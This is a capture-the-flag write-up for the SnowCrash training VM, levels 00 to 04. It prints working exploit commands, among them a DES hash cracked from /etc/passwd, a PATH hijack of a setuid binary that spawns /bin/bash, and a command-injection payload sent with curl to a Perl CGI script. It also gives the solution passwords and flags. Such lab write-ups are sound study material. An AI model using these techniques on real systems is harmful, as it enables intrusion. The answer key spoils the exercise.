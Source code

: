 # snowcrash-writeup
This project aims to make you discover, through several little challenges, cyber security in various fields.

## Level00:

```bash
level00@SnowCrash:~$ ls -l /usr/sbin/ | grep flag00
----r--r--  1 flag00  flag00      15 Mar  5  2016 john
```
```bash
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
level00@SnowCrash:~$
```
ROT11: 

<img width="489" alt="image" src="https://user-images.githubusercontent.com/48088579/148955037-fe8cbff0-538f-4c38-b254-9c58efa00a20.png">

Password for flag00: `nottoohardhere`

Flag: `x24ti5gi3x0ol2eh4esiuxias`

## Level01:

```bash
level01@SnowCrash:~$ cat /etc/passwd
...
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
...
```
```bash
➜  ~ echo "42hDRfypTqqnw" > hash && john hash
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefg          (?)
1g 0:00:00:00 100% 2/3 33.33g/s 25600p/s 25600c/s 25600C/s raquel..bigman
Use the "--show" option to display all of the cracked passwords reliably
Session completed
➜  ~
```

Password for flag01: `abcdefg`

Flag: `f2av5il02puano7naaf6adaaf`

## Level02:
```bash
level02@SnowCrash:~$ ls -l
total 12
----r--r-- 1 flag02 level02 8302 Aug 30  2015 level02.pcap
level02@SnowCrash:~$
```

TCP Stream:

<img width="691" alt="image" src="https://user-images.githubusercontent.com/48088579/148960536-2c6ce7ee-c4f2-4c5a-a2b9-9eceafa8bb38.png">

Password as Hex:

```
66
74
5f
77
61
6e
64
72
7f
7f
7f
4e
44
52
65
6c
7f
4c
30
4c
0d
```

Filtering the password: if `7f` is `DEL` and `0D` is `CR` the password will be `66 74 5F 77 61 4E 44 52 65 4C 30 4C`.

Password for flag02: `ft_waNDReL0L`

Flag: `kooda2puivaav1idi4f57q8iq`

## Level03:

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```

Disassembled:

<img width="468" alt="image" src="https://user-images.githubusercontent.com/48088579/148961769-ff778941-e677-4280-b940-a7ffee264ccb.png">

Exploit:

```bash
echo "/bin/bash" > /tmp/echo && chmod 777 /tmp/echo && export PATH=/tmp:$PATH && ./level03
```

Flag: `qi0maab88jeaj46qoumi7maus`

## Level04:

```bash
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
level04@SnowCrash:~$
```

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Vulnerability: Command injection in ```print `echo $y 2>&1`;```

Exploit:

```bash
level04@SnowCrash:~$ curl http://localhost:4747/?x=%60getflag%60
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$
```

Flag: `ne2searoevaevoem4ov4ar8ap`
